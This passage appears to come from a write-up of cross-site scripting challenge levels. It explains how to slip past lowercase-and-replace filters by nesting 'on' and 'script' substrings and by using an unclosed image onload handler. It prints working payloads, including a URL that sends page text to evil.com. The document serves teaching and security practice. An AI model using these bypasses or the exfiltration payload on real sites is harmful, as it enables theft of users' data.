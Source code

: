 Level 3 relies on JavaScript's `replaceAll` string method to replace all occurrences of `script` and `on` with the empty string (i.e. removing them from the input). It also converts the entire input to lowercase before executing the replacement, preventing our previous payload from slipping through.

We can use this replacement to our advantage by inserting either of these substrings into our `script` tags such that the original code will be produced upon replacement. For example, replacing `<script>` with `<scrionpt>` will cause the sanitizer to removed the extra `on` substring within the tag, converting it back to `<script>`. Since the replacement is performed only once, the result will be our original payload, though it will be in lowercase. This lowercase conversion is a problem for the attacker, as JavaScript identifiers are case sensitive, so replacing `querySelector` with `queryselector` will break the payload.

One way to get around the lowercase constraint is to load the actual payload at runtime using only lowercase methods and execute it using the `eval` function. Since we have control of the URL, we can append the payload to the URL as a query parameter and execute it as follows:

```
<scrionpt>eval(locatioonn.search.split('&a=')[1])</scrionpt>
```

This will execute any JavaScript code passed in the `a` query parameter in the URL. Note that we have to use the same trick with `on` to ensure `location` does not get changed to `locati`. The full malicious URL looks like this:

```
${base_url}?html=<scrionpt>eval(locatioonn.search.split('%26a%3D')[1])<%2Fscrionpt>&a=fetch(`https://evil.com/${document.body.innerText}`)
```

Note that this will send the body's entire text content to the server, which avoids having to put quotes in the payload which causes trouble due to URL encoding.

### Level 4

JavaScript filter:
```
(html) =>
	html
		.toLowerCase().replaceAll('script', '').replaceAll('on', '')
		.replaceAll('>', '')
```

This level features the same checks as the previous, with an additional replacement of all '>' characters with the empty string. This prevents us from closing the script tag, but we can take advantage of the "forgive" nature of modern browsers by instead wrapping the JavaScript code in an image's `onload` handler, and just never closing the image tag.

```
<img oonnload="eval(locatioonn.search.split('&a=')[1])" src="https://picsum.photos/200/300" 
```

As it turns out, most browsers will still display the image and execute the `onload` handler, even if this is not valid HTML.

### Level 5
